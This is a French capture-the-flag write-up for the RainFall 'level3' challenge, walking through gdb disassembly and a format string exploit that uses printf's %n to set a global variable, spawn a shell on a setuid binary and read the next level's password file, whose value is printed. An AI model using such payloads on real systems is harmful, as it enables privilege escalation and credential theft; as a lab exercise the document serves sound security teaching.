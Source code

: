 # 03 - Format string 1

- On se connecte en tant que level3:
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level3/level3
```

```
level3@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level4 users 5366 Mar  6  2016 level3

level3@RainFall:~$ gdb level3
```

```
(gdb) disas main
Dump of assembler code for function main:
   0x0804851a <+0>:     push   %ebp
   0x0804851b <+1>:     mov    %esp,%ebp
   0x0804851d <+3>:     and    $0xfffffff0,%esp
   0x08048520 <+6>:     call   0x80484a4 <v>
   0x08048525 <+11>:    leave
   0x08048526 <+12>:    ret
End of assembler dump.
```

```
(gdb) disas v
Dump of assembler code for function v:
   0x080484a4 <+0>:     push   %ebp
   0x080484a5 <+1>:     mov    %esp,%ebp
   0x080484a7 <+3>:     sub    $0x218,%esp
   0x080484ad <+9>:     mov    0x8049860,%eax
   0x080484b2 <+14>:    mov    %eax,0x8(%esp)
   0x080484b6 <+18>:    movl   $0x200,0x4(%esp)
   0x080484be <+26>:    lea    -0x208(%ebp),%eax
   0x080484c4 <+32>:    mov    %eax,(%esp)
   0x080484c7 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:    lea    -0x208(%ebp),%eax
   0x080484d2 <+46>:    mov    %eax,(%esp)
   0x080484d5 <+49>:    call   0x8048390 <printf@plt>
   0x080484da <+54>:    mov    0x804988c,%eax
   0x080484df <+59>:    cmp    $0x40,%eax
   0x080484e2 <+62>:    jne    0x8048518 <v+116>
   0x080484e4 <+64>:    mov    0x8049880,%eax
   0x080484e9 <+69>:    mov    %eax,%edx
   0x080484eb <+71>:    mov    $0x8048600,%eax
   0x080484f0 <+76>:    mov    %edx,0xc(%esp)
   0x080484f4 <+80>:    movl   $0xc,0x8(%esp)
   0x080484fc <+88>:    movl   $0x1,0x4(%esp)
   0x08048504 <+96>:    mov    %eax,(%esp)
   0x08048507 <+99>:    call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:   movl   $0x804860d,(%esp)
   0x08048513 <+111>:   call   0x80483c0 <system@plt>
   0x08048518 <+116>:   leave
   0x08048519 <+117>:   ret
End of assembler dump.
```


- Voyons les parties les plus importantes du programme:
```
   0x080484ad <+9>:     mov    0x8049860,%eax
   0x080484b2 <+14>:    mov    %eax,0x8(%esp)
   0x080484b6 <+18>:    movl   $0x200,0x4(%esp)
   0x080484be <+26>:    lea    -0x208(%ebp),%eax
   0x080484c4 <+32>:    mov    %eax,(%esp)
   0x080484c7 <+35>:    call   0x80483a0 <fgets@plt>
```
> Prompt pour 512 octets dans une zone mémoire de 520 octets.

```
   0x080484cc <+40>:    lea    -0x208(%ebp),%eax
   0x080484d2 <+46>:    mov    %eax,(%esp)
   0x080484d5 <+49>:    call   0x8048390 <printf@plt>
```
> Appel de `<printf@plt>` avec notre buffer comme premier paramètre.

```
   0x080484da <+54>:    mov    0x804988c,%eax
   0x080484df <+59>:    cmp    $0x40,%eax
   0x080484e2 <+62>:    jne    0x8048518 <v+116>
```
>`0x804988c <m>:  0x00000000`

> Après l'appel à `<printf@plt>`, compare la valeur située à `0x804988c` avec la constante 0x40 (64 en décimal). Si les deux valeurs diffèrent, on `leave` puis on `ret`, sinon on continue.

```
   0x0804850c <+104>:   movl   $0x804860d,(%esp)
   0x08048513 <+111>:   call   0x80483c0 <system@plt>
```
>`0x804860d: "/bin/sh"`

>Ouvre un terminal.


- Cette exercice est une introduction au [format string attack](https://axcheron.github.io/exploit-101-format-strings/). Le contenu de notre buffer est utilisé comme premier paramètre de la fonction `<printf@plt>`, donc on peut lire/écrire n'importe quoi sur la stack.
```
level3@RainFall:~$ echo -ne 'BBBB %x %x %x %x %x \n' | ./level3
BBBB 200 b7fd1ac0 b7ff37d0 42424242 20782520
```

```
level3@RainFall:~$ echo -ne 'BBBB %4$x \n' | ./level3
BBBB 42424242
```

```
level3@RainFall:~$ echo -ne '\x8c\x98\x04\x08 %4$x \n' | ./level3
 804988c
```


- Avec `<printf@plt>`, `%x` nous permet d'afficher une valeur hexadécimale, et `%n` nous permet d'assigner une valeur à une adresse, cette valeur correspond au nombre de caractères écrits jusqu'au `%n` en question, du coup:
```
level3@RainFall:~$ gdb level3
...
(gdb) b*0x080484df
```

```
(gdb) r < <(echo -ne '\x8c\x98\x04\x08 %4$n \n')
...
(gdb) x/d 0x804988c
0x804988c <m>:  5
```

```
(gdb) r < <(echo -ne '\x8c\x98\x04\x08 %58x %4$n \n')
...
(gdb) x/d 0x804988c
0x804988c <m>:  64
```

```
level3@RainFall:~$ (echo -ne '\x8c\x98\x04\x08 %58x %4$n \n'; cat) | ./level3
...
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```